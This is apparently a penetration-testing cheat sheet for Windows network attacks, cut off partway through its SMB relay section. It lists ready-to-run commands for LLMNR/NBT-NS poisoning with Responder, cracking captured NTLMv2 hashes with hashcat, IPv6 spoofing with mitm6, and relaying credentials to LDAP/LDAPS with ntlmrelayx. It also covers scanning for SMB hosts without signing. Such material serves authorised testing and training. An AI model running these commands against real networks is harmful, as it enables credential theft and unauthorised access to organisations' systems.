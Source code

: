 

## LLMNR Poisoning
### 1. Check if LLMNR/NBT-NS is enabled
```sh
nmap --script=llmnr,nbtns 10.10.10.0/24
```

### 2. Start Responder to capture NTLMv2 hashes
```sh
sudo responder -I tun0 -dP
```

### 3. If NTLMv2 hash was captured, crack it with Hashcat
```sh
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

---

## IPv6 Attacks
### 1. Check if IPv6 is enabled on the network
```sh
ipconfig /all | findstr "IPv6"
```

### 2. Run mitm6 against the domain
```sh
sudo mitm6 -d test.local
```

### 3. Start ntlmrelayx.py
```sh
# Try using LDAPS first, fallback to LDAP if necessary
ntlmrelayx.py -6 -t ldaps://10.10.10.1 -wh fakewpad.test.local -l lootme
ntlmrelayx.py -6 -t ldap://10.10.10.1 -wh fakewpad.test.local -l lootme
```

---

## SMB Relay Attack
### 1. Check if SMB signing is disabled
```sh
nmap -p445 10.10.10.0/24 --script=smb2-security-mode
```

### 2. Modify Responder configuration
```sh
sudo nano /etc/responder/Responder.conf
# Set the following:
SMB = Off
HTTP = Off
```

